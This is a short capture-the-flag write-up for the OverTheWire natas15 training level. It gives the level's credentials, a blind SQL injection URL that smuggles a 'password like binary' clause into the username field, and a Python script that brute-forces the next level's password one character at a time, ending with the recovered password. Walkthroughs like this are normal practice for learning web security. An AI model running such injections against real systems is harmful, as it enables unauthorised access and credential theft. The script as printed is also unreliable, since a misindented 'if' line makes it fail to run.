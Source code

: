 # [natas 15](http://natas15.natas.labs.overthewire.org)

    Username: natas15
    Password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

We can browse to the url below to guess the password.

    http://natas15.natas.labs.overthewire.org/?username=natas16" and password like binary"W%&debug

Write a python script to complete the work.

    import requests
    chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
            [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
            [chr(i) for i in range(ord("0"),ord("9")+1)]
    password = ''
    for i in range(64):
        for ch in chars:
        if 'This user exists' in requests.get('http://natas15.natas.labs.overthewire.org/?username=natas16" and password like binary"'+password+ch+'%&debug', auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')).text:
            password += ch
            print(password)
            break
        else:
            break

Eventualy we get the password for natas 16.

    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

